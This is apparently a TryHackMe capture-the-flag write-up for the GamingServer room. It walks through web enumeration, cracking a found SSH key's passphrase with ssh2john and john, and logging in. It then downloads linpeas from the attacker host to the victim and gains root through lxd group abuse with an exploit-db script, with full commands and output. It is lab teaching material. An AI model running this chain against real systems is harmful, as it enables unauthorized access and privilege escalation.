

# 🏴 TryHackMe - GamingServer

> ⚠️ Disclaimer: This write-up does **not** include flags or exact answers, only methodology and learning process, in respect of TryHackMe rules.

---

## 🔍 Recon
>ip addreess 10.10.187.230


**-"john, please add some actual content to the site! lorem ipsum is horrible to look at. --> "
-So one of the web dev is called Jhon, nice**
### Gobuster Enumeration
```bash
┌──(robert㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.187.230/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.187.230/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 315] [--> http://10.10.187.230/secret/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.187.230/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
>[secret](http://10.10.187.230/secret/)
>[uploads](http://10.10.187.230/uploads/)

**-Found one private key RSA**


**-And a Dict List with some passwords, usefull for brute force**


### Nmap Scan
```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/GamingServer]
└─$ nmap -sC -sV -oN Nmap/initial 10.10.187.230 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 10:13 EDT
Nmap scan report for 10.10.187.230
Host is up (0.060s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.02 seconds
```

**-So let's focus on the RSA private key**
```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/GamingServer]
└─$ ls
Nmap  passwords_list.txt  rsa_private_key
                                                                                                                    
┌──(robert㉿kali)-[~/Documents/THM_Challenges/GamingServer]
└─$ ssh2john rsa_private_key >rsa_private_key.txt
                                                                                                                    
┌──(robert㉿kali)-[~/Documents/THM_Challenges/GamingServer]
└─$ ls
Nmap  passwords_list.txt  rsa_private_key  rsa_private_key.txt
                                                                                                                    
┌──(robert㉿kali)-[~/Documents/THM_Challenges/GamingServer]
└─$ cat rsa_private_key.txt 
rsa_private_key:$sshng$1$16$82823EE792E75948EE2DE731AF1A0547$1200$4fbf85fb78a59b915c159c76e269ebba0318e39e6f238eb5ce231be0d624f58255e6ec1caf1e107e53f6436564f298711f83fe3cb6fbf6709cd12ac138f065074577a632c96dfda129b65acc52edab816366aeba68b2c8af6751c3be0ccc748c1739c523b8ecc581703d4a99b64cf9b13717d5a7dc87e214e7f21de334d3b023bcaaab3aaafe5090c5d51acefb1769122da7f1d2625d72ebbfe5a477363355b65b8a672897227b245e20b4d7e627864aa3978232edf1339f6a999ca28f54fbfcf739440a31114b2b1b50a61c7271649c1d43c2e244c43fdeac64622c160e1ae31ab5cf84a1a80a906a52666e05b5c20e22bc317b20a1237daf26cf56f773d4a8732008919712963bfc834c5106a10dfdf09e5561042d745161fda6220eba934d4a48d26eb2313a058984872913d04b5541389dd00c8b7b74e4c635534928effbef8739dd79971685527749d708031e20ff90ff62a70bb6dfed29b2f2bb2820936dcdceeb299db530656a28e5fbe0fa312046e77dd2ce1d0d630451119d0765adc3bb982458638a3c3cb70f16c1a3c71d0798b4782bb708660bf80b8f583102ae77d900209971a86b35dddc878546d181ebe1cb0e5f15443cf5ff889985a7c30b682284a7963a398b87cdd0a8ac1ae2cd57201e8128f652fce83233844c9cddee666bf5ac33cbfb4cb3b7a03904710d5df90d7c5591590c6f2ad8869522e6cb03cfe4e1e7bf49b36f5e901b412cd453e5c615721edfd62a569565f4ddac99de4e7f14bb7bd9f363057fe7af6dd30f64cc7d5dcdc8c7bfe115e23109da0c3788baf01a1915005ca0968eb9f9cb9130b4847c4ded3fedfd0bdc688b1648559d830c276056899dc1de123eddd619e6b008a26fbf437f2dfce3f9678d932d5f5357204821cd08f981af131671def2e983371e42ab91a960dd4152d7d6158aad906727bf32d224cd3b44082a03e48f018f250a75def2037e36fffdfbffbfba279f785b4e9aba435369117ebf49859631f5390bc13a8e3f45d68eab9f58d1085d7229c1715cb6965a110702e342e96c11930e25564d0cb1f00b88e9839f22dfa4eb87c6aed7e358f56fdf218e2668aa40e6bcfe90c682d34f827266145ac1cb6777ecacd2a0da5395799e4ff76b91e4da3fa616453cfc21e83e7e656db2041e959438e26872d2f138f28f762b18f7b8007a8d9a7c8f18000a970d06dde2b20ec7fddabaa18893b4226b2f721cb53ac4b815bc804dfb51b491a93ba3f45a32fb29c698d3f1e4741e0b968efc6a1e487d057a54e47102a20c3c47abb98b3096493b4a2a7497ece89b7f24ee20cdd061dc9b74801a0a9d731563b3f9bbc75aff8b15fa4244f7dc7b0e1f185e78f502cda063e30c40756ebc2a67c1147b5cb98af058f74d953e5872b93fa5b97cb2bbbb7315b757aa1337f6ea58216e71149f5eca2aef9543a11d20f2f5e741d292ce55fb67c2f094d0d5f977ac8f6fa303cfb82f1a363f9042ee66eb903952b9abf18d35fd68ea9f6c02eeea71cedea134120c6dc36b9dd66483cd1f78a67c443ef013b131965da1bf748130c093e59ac116ae7889ad28853850f219253ea62175279b910b54e473d887e10bfef5352fd3df1afd338a9b2d81b2c53923e9f869a49674698a1697686617b2829f5ef03118254885b6962c0a790326c88971f2056b1b85b49130af8f
                                                                                                                    
┌──(robert㉿kali)-[~/Documents/THM_Challenges/GamingServer]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt rsa_private_key.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (rsa_private_key)     
1g 0:00:00:00 DONE (2025-08-31 10:17) 14.28g/s 7314p/s 7314c/s 7314C/s lover..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

**-ss2hjohn to make it readable, after used john to crack the hash**
**-I then logged in to machine via ssh using john as the user and the identity file secretKey**
**-I gave the secretKey file the right permissions in a way that I had full access to read and modify the file, while all other users (group members and others) have no access.**

```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/GamingServer]
└─$ chmod 600 rsa_private_key
                                                                                                                
┌──(robert㉿kali)-[~/Documents/THM_Challenges/GamingServer]
└─$ ssh -i rsa_private_key john@10.10.187.230    
The authenticity of host '10.10.187.230 (10.10.187.230)' can't be established.
ED25519 key fingerprint is SHA256:3Kz4ZAujxMQpTzzS0yLL9dLKLGmA1HJDOLAQWfmcabo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.187.230' (ED25519) to the list of known hosts.
Enter passphrase for key 'rsa_private_key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Aug 31 14:22:58 UTC 2025

  System load:  0.0               Processes:           101
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 17%               IP address for ens5: 10.10.187.230
  Swap usage:   0%

0 packages can be updated.
0 updates are security updates.

Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
```
**flag for user.txt is done**


### Privilege Escalations 
**let's try with the linpeas.sh**

```bash
john@exploitable:/tmp$ wget 'http://10.21.197.1/linpeas.sh'
--2025-08-31 14:37:35--  http://10.21.197.1/linpeas.sh
Connecting to 10.21.197.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 954437 (932K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                   100%[==============================================>] 932.07K  1.67MB/s    in 0.5s    

2025-08-31 14:37:36 (1.67 MB/s) - ‘linpeas.sh’ saved [954437/954437]
```

**now we have linpeas, let's cook**
```bash
╔══════════╣ My user
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#users                             
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd) 
```
**Found the following exploit for lxd -> https://www.exploit-db.com/exploits/46978**
**Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]**
**Step 2: build -> sudo bash build-alpine**
**Step 3: send the following alpine-v3.22-x86_64-20250831_1104.tar.gz to the victim machine**
**Step 4: Copy the exploit from exploit-db in an exploit.sh and run it with the -f and the tar.gz file**
```bash
john@exploitable:/tmp$ ls
alpine-v3.22-x86_64-20250831_1104.tar.gz
exploit.sh
linpeas.sh
metadata.yaml
rootfs
systemd-private-165b4e6581d84de0a9f9d5e5af5b9738-apache2.service-ALnjzF
systemd-private-165b4e6581d84de0a9f9d5e5af5b9738-systemd-resolved.service-6gFC6M
systemd-private-165b4e6581d84de0a9f9d5e5af5b9738-systemd-timesyncd.service-SfmcV3
templates
tmux-1000
john@exploitable:/tmp$ ./exploit.sh 

Usage:
        [-f] Filename (.tar.gz alpine file)
        [-h] Show this help panel

john@exploitable:/tmp$ ./exploit.sh -f alpine-v3.22-x86_64-20250831_1104.tar.gz 
Image imported with fingerprint: 9999a345d7e6a41fc687fa9941bdc9f5becf48c702d6f94e5192d4dd34ad92ec
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| alpine | 9999a345d7e6 | no     | alpine v3.22 (20250831_11:04) | x86_64 | 3.85MB | Aug 31, 2025 at 3:12pm (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # whoami
root
~ # 
```
